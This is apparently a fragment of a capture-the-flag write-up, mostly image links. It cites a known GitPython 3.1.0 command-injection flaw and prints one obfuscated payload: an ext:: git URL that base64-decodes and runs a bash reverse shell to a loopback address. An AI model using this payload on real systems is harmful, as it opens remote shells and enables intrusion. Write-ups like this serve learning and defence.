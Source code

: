 ![](attachment/2662d18ae97aeacdddfa555af87e6dac.png)

![](attachment/a210c3a2f821b0a114505d4555973e1e.png)

Google : `GitPython==3.1.0 exploit`

> https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858

![](attachment/dca1feb31f5161ef8e3f37fefb64327c.png)

Payload :

```
ext::sh -c echo% YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvMTExMSAwPiYxCg==|base64% -d|bash
```

# Forensics
